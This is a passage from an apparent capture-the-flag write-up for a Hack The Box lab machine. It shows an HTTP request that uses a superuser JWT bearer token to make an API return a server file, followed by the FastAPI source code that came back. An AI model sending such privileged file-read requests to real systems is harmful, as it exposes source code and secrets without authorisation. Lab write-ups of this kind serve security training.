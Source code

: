 ```http
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 41
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/home/htb/uhc/app/main.py"
}
```
and after some mods we can see as a response the file:  
```python
"file":"import asyncio

from fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends
from fastapi_contrib.common.responses import UJSONResponse
from fastapi import FastAPI, Depends, HTTPException, status
from fastapi.security import HTTPBasic, HTTPBasicCredentials
from fastapi.openapi.docs import get_swagger_ui_html
from fastapi.openapi.utils import get_openapi



from typing import Optional, Any
from pathlib import Path
from sqlalchemy.orm import Session



from app.schemas.user import User
from app.api.v1.api import api_router
from app.core.config import settings

from app import deps
from app import crud


app = FastAPI(title="UHC API Quals", openapi_url=None, docs_url=None, redoc_url=None)
root_router = APIRouter(default_response_class=UJSONResponse)


@app.get("/", status_code=200)
def root():
    """
    Root GET
    """
    return {"msg": "UHC API Version 1.0"}


@app.get("/api", status_code=200)
def list_versions():
    """
    Versions
    """
    return {"endpoints":["v1"]}

```